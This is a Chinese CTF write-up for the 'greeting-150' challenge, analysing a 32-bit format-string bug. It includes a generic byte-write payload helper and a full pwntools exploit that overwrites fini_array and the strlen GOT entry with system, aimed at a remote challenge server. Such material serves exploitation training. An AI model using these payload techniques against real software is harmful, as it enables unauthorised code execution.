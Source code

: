 # greeting-150

### 保护

```shell
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### 漏洞

字符串漏洞

源代码

```c++
  char s; // [esp+1Ch] [ebp-84h]
  char v5; // [esp+5Ch] [ebp-44h]
  unsigned int v6; // [esp+9Ch] [ebp-4h]

  v6 = __readgsdword(0x14u);
  printf("Please tell me your name... ");
  if ( !getnline(&v5, 0x40) )
    return puts("Don't ignore me ;( ");
  sprintf(&s, "Nice to meet you, %s :)\n", &v5);
  return printf(&s); #字符串漏洞
```



### 利用

由于程序中只有一个字符串漏洞, 执行字符串漏洞后结束,这时就需要覆盖fini_array为start函数进行再次执行程序同时修改strlen的got表为system plt地址.

简单介绍一下: fini_array, 在`main`函数前会调用`.init`段代码和`.init_arra`y段的函数数组中每一个函数指针。同样的，`main`函数结束后也会调用`.fin`i段代码和`.fini._arrary`段的函数数组中的每一个函数指针

### 字符串漏洞设置大的值注意的地方

```
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数
```

1. 第一次%xc%hhn的时候，要扣掉前面摆放的address的长度。比如32位时，其前面会摆放4个地址，这个时候就是x需要减去4x4 = 16.
2. 之后每个%xc 必需扣掉前一个写入 byte 的值总字符数才会是这个写入需要的长度。比如 第一次写入值为 90 第二个写入 120 此时应为`%30c% offset$hhn`
3. 当某一次写入的值比前面写入的要小的时候，就需要整数overflow回来。比如：需要写入的一个字节，用的是hhn的时候，前面那次写入的是0x80，这次写入的是0x50，这时候就用0x50可以加上0x100（256）=0x150 （这时候因为是hhn，在截取的时候就是截取的0x50）， 再减去0x80 =  0xD0（208），也就是填入%208c%offset$hhn即可

单字节覆盖常用脚本(ctf-wiki):

```python
def fmt(prev, word, index): # prev: payload 长度,  word: 单个字符, index: 偏移地址 + i
    if prev < word: #若payload长度小于单个字符的值时
        result = word - prev
        fmtstr = "%" + str(result) + "c" #直接写入差值,补齐
    elif prev == word: #若payload长度等于单个字符的值时
        result = 0 #不写
    else:       #若payload长度大于单个字符的值时
        result = 256 + word - prev  #通过单个字符溢出来打
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn" #添加自payload
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i) #32位将要覆盖的地址
        else:
            payload += p64(addr + i) #64位将要覆盖的地址
    prev = len(payload) #获取payload长度
    for i in range(4):
        #传入,payload长度, 目标字节, 偏移
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

#fmt_str(12, 4, exe.got['strlen'], exe.plt['system'])
'''
其中每个参数的含义基本如下
    offset表示要覆盖的地址最初的偏移
    size表示机器字长
    addr表示将要覆盖的地址。
    target表示我们要覆盖为的目的变量值。
'''
```



通过上面的介绍, 根据以上脚本写字符串漏洞原理写exp

### exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan
# Team  : D0g3

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'
context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "greeting-150"
libFile  = ""

remoteIp = "111.198.29.45"
remotePort = 46553

LOCAL = 0
LIBC  = 0

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------

#--------------------------Exploit--------------------------
def exploit():
	ru('... ')

	strlen_got = exe.got['strlen']
	# ELF Termination Funciton Talbe
	# strlen_got 0x08049a54
	fini_array = 0x08049934
	start_addr = 0x080484F0
	system_plt = 0x08048490

	# 'Nice to meet you, %s:)' + str
	# offset 12
	offset = 12
	prelen = len('Nice to meet you, ')

	li('strlen_got: ' + hex(strlen_got))
	li('fini_array: ' + hex(fini_array))
	
	p = 'AA' #aliament
	p += p32(strlen_got + 2)
	p += p32(fini_array + 2)

	p += p32(strlen_got)
	p += p32(fini_array)
	#modify highword(strlen_got)
	p += '%' + str(0x0804 - 0x12 - prelen) + 'c%' + str(offset) + '$hn' 
    #modify highword(fini_arry_addr) 
	p += '%' + str(offset + 1) + '$hn'

	#modify lowword(system_plt)
	p += '%' + str(0x8490 - 0x804) + 'c%' + str(offset + 2) + '$hn'
	#modify lowword(fini_plt)
	p += '%' + str(0x84F0 - 0x8490) + 'c%' + str(offset + 3) + '$hn'

	sl(p)

def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIBC:
			libc = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
		
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIBC:
			libc = ELF(libFile)
	
	exploit()
	finish()
    

```



